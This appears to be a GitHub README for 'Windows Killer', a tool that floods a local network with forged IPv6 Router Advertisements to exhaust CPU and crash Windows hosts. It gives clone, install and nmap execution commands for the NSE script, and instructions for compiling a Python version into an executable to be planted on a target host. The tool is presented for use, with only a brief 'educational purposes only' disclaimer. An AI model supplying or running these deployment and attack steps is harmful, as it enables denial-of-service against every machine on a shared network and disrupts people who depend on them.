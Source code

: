 # Windows Killer

Generates a flood of Router Advertisements (RA) with random source MAC addresses and IPv6 prefixes. Computers, which have stateless autoconfiguration enabled by default (every major OS), will start to compute IPv6 suffix and update their routing table to reflect the accepted announcement. This will cause 100% CPU usage on Windows and platforms, preventing to process other application requests.

# Install

git clone https://github.com/Kleptocratic/WindowsKiller.git

# Check for location of other NSE scripts

find / -name '*.nse'

# Move downloaded files into directory

sudo mv WindowsKiller.nse /usr/local/share/nmap/scripts/

# Execute script

nmap -6 --script WindowsKiller.nse --script-args 'interface=<interface>'
  
# WindowKiller.py
  
Designed as an eternal loop to be compiled as an executable and placed on target host, the script will pseudo-generate IPv6 Router Advertisements and flood the network with potential connections. Warning: this script will crash most, if not all, Windows operating systems within the LAN. This script is for educational purposes only. Be wise, stay legal.

# Compiling WindowsKiller.py as an Executable
  
Install PyInstaller from PyPI:

  pip install pyinstaller

Go to your program’s directory and run:

  pyinstaller yourprogram.py

This will generate the bundle in a subdirectory called dist.

  pyinstaller -F yourprogram.py

Adding -F (or --onefile) parameter will pack everything into single "exe".

  pyinstaller -F --paths=<your_path>\Lib\site-packages  yourprogram.py

Running into "ImportError" you might consider side-packages.

 pip install pynput==1.6.8
